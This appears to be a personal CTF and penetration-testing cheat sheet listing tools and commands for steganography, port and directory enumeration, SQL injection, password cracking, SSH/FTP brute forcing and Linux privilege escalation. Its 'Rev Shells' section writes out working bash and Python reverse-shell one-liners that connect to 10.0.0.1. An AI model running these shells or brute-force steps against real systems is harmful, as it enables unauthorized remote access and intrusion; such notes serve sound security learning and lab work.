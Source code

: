 


# Stego

 - steghide
 - allways run file
 - binwalk
 - convert it to different file extensions
 - check hex editor



# Port Bruteforcing:
 - nmap -sV -sC -oN nmap/initial: this is for first enumerations 
 - rustscan: for quicker enumerations

# Directory Bruteforcing:
 - gobuster: commandline tool that bruteforces web directories and pages.
 - dirbuster: gui tool that bruteforces web directories and pages (dont really use this because of gui)
 - look at own tool and see if its fast
# SQL
 - Burpsuite intruder mode with wfuzz payload
 - sqlmap.py for easier
 - try blind
# Payloads
- go to pentestmonkey for rev shells
- msfconsole 
- https://www.exploit-db.com

# Hashes
 - Johntheripper for any rsa based stuff
 - hashcat for bruteforcing hashes
 
 # Rev Shells
  - msfconsole
  - Bash: bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
  - Python: python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
  - php: Consult pentest monkey
  - 
 
 # Bruteforcing 
 - For ssh and ftp use hydra
 - for website bruteforcing using either burpsuite intruder module or make one with python
# Encryption
 - https://github.com/nlitsme/vimdecrypt for vim encryption
# PrivEsc
 - if lazy use linpeas.sh
 # if not here are the steps
 - sudo -l # allow to run a program as a certain user
 - find . -perm /4000 2>/dev/null # SUID   
 - find . -perm /2000 2>/dev/null # SGID
 - find . -perm /6000 2>/dev/null # Both SUID and SGID
 - if find a not normal suid and sgid consult https://gtfobins.github.io/
  

